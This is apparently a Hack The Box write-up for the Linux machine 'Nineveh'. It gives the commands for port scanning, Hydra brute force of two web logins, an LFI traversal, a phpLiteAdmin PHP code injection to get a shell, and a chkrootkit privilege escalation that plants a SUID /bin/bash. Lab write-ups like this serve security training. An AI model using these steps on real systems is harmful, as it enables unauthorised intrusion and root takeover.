

# Nineveh

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Medium |
| **Topics** | Apache 2.4.18, phpLiteAdmin 1.9, LFI, Chkrootkit PrivEsc, Brute Force Web Login |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.43 -oN AllPorts
```

```bash
nmap -p 80,443 -sCV -Pn -n 10.10.10.43 -oN FullScan
```



SYN Scan

```bash
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html).
```

```bash
nmap -p 80,443 --script "http-enum*" -Pn -n 10.10.10.43 -oN WebNmapScan
```

```bash
PORT    STATE SERVICE
80/tcp  open  http
| http-enum: 
|_  /info.php: Possible information file
443/tcp open  https
| http-enum: 
|   /db/: BlogWorx Database
|_  /db/: Potentially interesting folder
```

### Whatweb Scan

```bash
whatweb -a 3 http://10.10.10.43
http://10.10.10.43 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43]
```

### Wfuzz Scan

```bash
wfuzz -c -t 200 --hc=404 -f wfuzz-scan,raw -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.43/FUZZ
```


```bash
wfuzz -c -t 200 --hc=404 -f wfuzz-scan,raw -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.43/FUZZ
```


### Web - Port 80 - Login Page


Tried some SQL injections but none of them worked. 

### Web - Port 443 - DB


# Initial Access

After the initial enumeration we found 2 different web logins, one on port 80 and the other one on port 443.

### Port 80 - Department login

Apply Brute Force with Hydra:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 50
```

Result: Valid Credentials

```bash
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
```

### Port 443 - phpLite Login

Apply brute force attack:

```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 50
```

Result: Valid Credentials

```bash
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
```

## LFI Vulnerability - Department Web

After getting the credentials for the login portal, proceed to log on and go to the section <[`Notes`](http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt)>:

```bash
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```

To exploit the LFI just remove the extension <.txt> at the end of the URL and use a basic LFI injection like <`/../../../../path/to/search`>. Then we will have something like this: 

```bash
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../../etc/passwd
```

> Important:  It looks like the server is using a whitelisting based on the string <`ninevehNotes`>. The URL must include this string in order to exploit the LFI vulnerability. We will consider this later on.
> 

**Result:** 


## Remote PHP Code Injection

After getting the credentials for the login portal, proceed to log on. Follow these steps:

1- Create a New Database with the name of <`ninevehNotes.php`> Check the reason [here](Nineveh%20aa2bd700923a456ab4adc73ef6d835a7.md)


2- Create a Table containg the PHP-Code as Name and with Number of Fields: **1**


3- Fill the following fields:

```bash
Field: pwned
Type: Change it to 'TEXT'
Default Value: PHP-PAYLOAD (optional) 
```

Example: 


4- Once created, then check the directory where our database is located.


5- By taking advantage of the LFI previously seen, try to access the database file:

```bash
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php
```

Optional:

```bash
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../../var/tmp/ninevehNotes.php
```

Be ready to catch the reverse shell:


> [Exploit reference:  PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | php/webapps/24044.txt](https://www.exploit-db.com/exploits/24044)
> 

Finally, just upgrade to a fully tty:

```bash
> script /dev/null -c bash 

Then: CTRL + Z

> stty raw -echo ; fg

Type: reset xterm

export TERM=xterm
export SHELL=/bin/bash
```

# Privilege Escalation

### Escalate Privileges to `amrois` user.

1-  Run Linpeas.sh

2- We will see the following report: 


3- Run a strings command over the png file:

```bash
strings nineveh.png
```

4- We will see the entire PRIVATE RSA at the end of the file for `amrois` user. 

Copy the id_rsa to a file within the target machine and then aunthenticate using ssh with the file:

```bash
cd /tmp
echo 'RSA PRIVATE KEY' > id_rsa
chmod 600 id_rsa
ssh -i id_rsa amrois@localhost
```

### Escalate to root

We will need to execute the following script that checks what processes are being executed in a defined period of time by root.

Script:

```bash
#!/bin/bash

old_process=$(ps -eo command)
A=0 
while A=0:
do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
        old_process=$new_process

done
```

Results:

```bash
/usr/sbin/CRON -f
> /bin/sh -c /root/vulnScan.sh
> /bin/bash /root/vulnScan.sh
> /bin/sh /usr/bin/chkrootkit
> /bin/sh /bin/egrep c
< /bin/sh /usr/bin/chkrootkit
> /usr/bin/find /dev /tmp /lib /etc /var ( -name tcp.log -o -name .linux-sniff -o -name sniff-l0g -o -name core_ )
< /usr/bin/find /dev /tmp /lib /etc /var ( -name tcp.log -o -name .linux-sniff -o -name sniff-l0g -o -name core_ )
> /bin/sh /usr/bin/chkrootkit
> /usr/bin/strings /sbin/init
> grep -E HOME
< /bin/sh /usr/bin/chkrootkit
< /usr/bin/strings /sbin/init
< grep -E HOME
> /bin/sh /usr/bin/chkrootkit
> find /proc
> wc -l
< /bin/sh /usr/bin/chkrootkit
< find /proc
< wc -l
< /usr/sbin/CRON -f
< /bin/sh -c /root/vulnScan.sh
< /bin/bash /root/vulnScan.sh
< /bin/sh /usr/bin/chkrootkit
```

We can see several scripts/tasks being executed, one of them is <`/root/vulnScan.sh`>, however we don’t have permissions to edit this script. 

The other one is <`/usr/bin/chkrootkit`>. This one has a vulnerability for privilege escalation

Searching on Exploit-DB `searchsploit chkrootkit`we will find the following exploit: 

```bash
Chkrootkit 0.49 - Local Privilege Escalation | linux/local/33899.txt
```

Checking the content we will see the following steps to escalate privileges:

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.

Since the `/usr/bin/chkrootkit` is executed every minute, we can create an script on `/tmp` with name `update`. The malicious code will be only the `chmod` assigning `SUID` privilege to `/bin/bash`. Simple like that :) 

```bash
cd /tmp
echo '#!/bin/bash' > update
echo 'chmod u+s /bin/bash' >> update
chmod +x update
```

Then, just wait until the `/usr/bin/chkrootkit` is executed and check permissions for `/bin/bash`


Finally, just launch the privilege bash

```bash
bash -p 
```


[Owned Nineveh from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/54)